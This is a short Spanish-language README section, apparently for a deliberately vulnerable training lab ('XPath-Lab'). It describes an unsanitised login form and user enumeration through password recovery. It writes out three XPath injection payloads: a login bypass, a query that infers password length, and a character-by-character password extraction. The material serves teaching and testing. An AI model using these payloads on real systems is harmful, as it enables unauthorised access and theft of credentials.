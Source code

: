 ## 🚨 XPath Injection (XPath-Lab)
- Aplicación vulnerable a inyección XPath, un lenguaje que permite construir expresiones que recorren y procesan un documento XML.
- En este caso, disponemos de un formulario de inicio de sesión que no está correctamente sanitizado, lo que puede llevar a un atacante a extraer información valiosa del servidor.
- Además, la web tiene una opción de recuperar contraseña que es vulnerable a **user enumeration**, por lo que mediante un ataque de fuerza bruta podemos encontrar usuarios válidos.

Gracias a este input malicioso, podemos darnos cuenta de la inyección, ya que conseguimos hacer un bypass del login:

```sh
username=test&password=' or '1'='1
```

Pero si además disponemos de usuarios válidos, podemos deducir la contraseña de estos empleando este input:

```sh
username=test&password=test' or username='{username}' and string-length(password)='{longitud a probar}
```
Por último, una vez que disponemos de la longitud de la contraseña, podemos extraerla caracter a caracter:

```sh
username=test&password=test' or username='{username}' and substring(password,1,1)='{caracter a probar}
```